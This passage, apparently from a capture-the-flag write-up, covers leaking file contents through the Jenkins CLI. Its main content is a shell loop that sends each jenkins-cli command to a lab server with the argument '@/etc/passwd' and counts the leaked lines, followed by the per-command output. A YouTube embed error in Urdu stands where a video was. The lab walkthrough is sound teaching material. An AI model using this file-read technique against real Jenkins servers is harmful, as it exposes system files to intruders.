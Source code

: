 

#### Getting More Lines

In [this video](https://www.youtube.com/watch?v=toPJhfy-wvw), I explore
the vulnerability, walk through exploitation with both the JAR and the
Python POC, and show the path to finding a method to leak more lines:


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=toPJhfy-wvw){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔

By the end of the video, I've got this output:


    oxdf@hacky$ cat commands | while read command; do echo "echo -n \"$command: \"; java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' $command '@/etc/passwd' 2>&1 | grep -oP ':\d+:\d+:' | sort -u | wc -l"; done > ipp.sh
    oxdf@hacky$ bash ipp.sh
    add-job-to-view: 1
    build: 1
    cancel-quiet-down: 1
    clear-queue: 1
    connect-node: 19
    console: 1
    copy-job: 1
    create-credentials-by-xml: 1
    create-credentials-domain-by-xml: 1
    create-job: 1
    create-node: 2
    create-view: 2
    declarative-linter: 1
    delete-builds: 1
    delete-credentials: 1
    delete-credentials-domain: 1
    delete-job: 19
    delete-node: 19
    delete-view: 19
    disable-job: 1
    disable-plugin: 0
    disconnect-node: 19
    enable-job: 1
    enable-plugin: 0
    get-credentials-as-xml: 1
    get-credentials-domain-as-xml: 1
    get-job: 1
    get-node: 1
    get-view: 1
    groovy: 0
    groovysh: 0
    help: 2
    import-credentials-as-xml: 1
    install-plugin: 0
    keep-build: 1
    list-changes: 1
    list-credentials: 1
    list-credentials-as-xml: 1
    list-credentials-context-resolvers: 1
    list-credentials-providers: 1
    list-jobs: 2
    list-plugins: 2
    mail: 1
    offline-node: 19